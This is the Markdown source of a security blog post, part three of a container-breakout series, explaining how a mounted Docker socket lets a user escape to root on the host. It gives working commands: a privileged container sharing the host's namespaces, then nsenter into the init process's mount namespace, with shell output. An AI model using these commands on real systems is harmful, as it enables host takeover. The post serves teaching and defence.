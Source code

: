 ```yaml
---
title: "Container Breakouts – Part 3: Docker Socket"
date: 2020-06-29T11:56:35+02:00
draft: true
tags:
- docker
- breakout
- security
---
```



This post is part of a series and shows container breakout techniques that can be performed if a container is started with a mounted Docker socket inside the container.

<!--more-->

The following posts are part of the series:
- [Part 1: Access to root directory of the Host](../container-breakouts-part1)
- [Part 2: Privileged Container](../container-breakouts-part2)
- Part 3: Docker Socket

## Intro

You may have read for certain container deployments that it is absolutely necessary to link the socket into the container, but what are the implications? That is exactly what we are going to discuss in the last blog post in the series about container breakouts. 

## Docker Socket

You know, every time you have **access to the Docker Socket** (default location: `/var/run/docker.sock`) it **means** that you are **root on the host**. Here should be mentioned that it might be the case that you are not root on the system, if docker is used root-less. Some containerized applications may need access to the socket, e.g., for observation or local system management.

You have read correctly, local system management. As soon you have **access to** the **socket**, you can **manage** the local **system**. Okay, first at all, you can manage containers and these containers can afterward manage the system. 

So if you want to escalate from the container to the system, you can **interact** with the **Docker Socket manually or** just simple **install Docker** (on ubuntu: `sudo apt update && sudo apt install -y docker.io`) in the container. What the next step? Exactly, start a further container. 
### Known Techniques

First at all I will start with a short re-cap. We can start containers with the root directory mounted into the container. To do so, one must run the following command and continue reading with [Part 1](../container-breakouts-part1) of this series.

```
# docker run --rm -it -v/:/hostfs ubuntu bash
root@95bc051624b9:/# 
``` 

The alternative would be to start a privileged container. This privileged container can interact with the kernel without limitations. To do so, one must run the following command and continue reading with [Part 2](../container-breakouts-part2) of this series.

```
# docker run --rm --privileged -it ubuntu bash   
root@aad2c9378900:/#
```

These steps are a bit obvious, but explain what hove done wrong in the other cases

### Dropping Namespace Boundaries

As we can take from the amazing artwork by Julia Evans ([@b0rk](https://twitter.com/b0rk)) and we already know that containerization is done by the use of Linux namespaces (details can be found in the man page `man namespaces`).
 
![container namespaces](../../images/container-ns.jpeg " Container namespaces by Julia Evans ([@b0rk](https://twitter.com/b0rk))")

To get details about which namespace is assigned to a process, we can take this information out of the `proc` filesystem (for each process `ls -l /proc/self/ns/`). The following namespaces are created for the start of a new container in the default configuration:
- inter process communication (`ipc`)
- mount (`mnt`)
- network (`net`)
- process id (`pid`)
- hostname (`uts`)

The [CIS Docker Benchmark](https://www.cisecurity.org/benchmark/docker/) recommends as well to configure docker in a way to spawn an own user namespace (`uid`).

If we want to break out of the container to get full system access we **start** a new **container with all (possible) namespaces** from the host via the docker socket. Only the `mnt` namespace cannot be set at container startup. Since we start our container **privileged**, there is no seccomp filter in place and we can use `nsenter` to **switch** to **mount namespace** of the `init` process.

```
# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 user user 0 Jul 15 09:02 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 ipc -> 'ipc:[4026532376]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 mnt -> 'mnt:[4026532374]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 net -> 'net:[4026532379]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid_for_children -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 user -> 'user:[4026531837]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 uts -> 'uts:[4026532375]'

# docker run --rm -it --privileged --network host --pid host --ipc host --uts host ubuntu  bash

root@arch:/# nsenter -t 1 -m

[root@arch /]# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:34 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 uts -> 'uts:[4026531838]'

[root@arch /]# ls -l /proc/1/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:03 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 uts -> 'uts:[4026531838]'

```

We can now behave as a user `root` with full access to the host system. 

## Conclusion

The final breakout technique was a bit more detailed about what docker does under the hood to secure containers. But, if you are root and can interact with the socket, there are no limitations. The last approach is the most OpSec-safe approach for easy container break out techniques.  

The listed container breakouts are in my humble opinion the most relevant one. The list is for sure not complete and as soon as I identify another important one, I will update, extend, and re-organize the content. 

I hope you enjoyed my little series and I am looking forward to if one of you has some ideas for extending container breakouts.

## Remarks

The list of proposed techniques is not complete and is mainly based on insecure container management. To name a few previous container breakouts that are based on vulnerabilities in docker here is a list to get an idea:

- [CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [Docker Patched the Most Severe Copy Vulnerability to Date With CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/)

At the end of writing, I realized that [Jesse Hertz](mailto:jesse.hertz@nccgroup.trust) from [NCC Group](https://www.nccgroup.com/) has released [Abusing Privileged and Unprivileged Linux Containers]( https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf) which is an even more comprehensive collection to breakout of a container. A collection of tools that test for container breakouts have been collected by Clint Gibler ([@clintgibler](https://twitter.com/clintgibler)) in [Container Security – A collection of container security resources and tools, organized by category](https://tldrsec.com/blog/container-security/).

The focus of this series was on the operating system level. Nowadays containers are managed and orchestrated in a cluster environment by [Kubernetes](https://kubernetes.io/) or [Nomad](https://www.nomadproject.io/) to name at least two. Even the whole cloud stack is kept out of this series. These two areas will be addressed in another series.

## Final words

Since I am only a consumer of already existing research I want to give out a big thanks for sharing the knowledge that I have consumed in the past years from:

- Brad Geesaman – [@bradgeesaman](https://twitter.com/bradgeesaman)
- Chris Le Roy – [@brompwnie](https://github.com/brompwnie)
- Clint Gibler – [@clintgibler](https://twitter.com/clintgibler) 
- Duffie Cooley – [@mauilion](https://twitter.com/mauilion)
- Ian Coldwater – [@IanColdwater](https://twitter.com/IanColdwater)
- Jessie Frazelle – [@jessfraz](https://twitter.com/jessfraz)
- Mark Manning – [@antitree](https://twitter.com/antitree) 
- Matthias Luft – [@uchi_mata](https://twitter.com/uchi_mata) 
- Rory McCune – [@raesene](https://twitter.com/raesene)

To name a few – you are awesome – please continue !!


